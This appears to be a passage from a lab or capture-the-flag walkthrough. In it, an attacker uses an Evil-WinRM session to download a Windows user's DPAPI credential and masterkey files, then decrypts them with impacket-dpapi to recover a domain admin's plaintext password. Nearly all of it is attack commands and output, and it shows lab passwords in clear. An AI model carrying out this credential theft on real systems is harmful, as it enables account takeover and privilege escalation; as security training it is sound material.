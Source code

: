 ```
    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials>download C4BB96844A5C9DD45D5B6A9859252BA6
```

```
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h

Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
 
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         12/4/2024   2:46 AM            740 1fe00192-86ec-4689-a4f2-f8c2336edaf4
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-         12/4/2024   2:46 AM             24 Preferred

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```
Then enter the decryption 
```
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)
 
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
 
└─# impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
 
[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```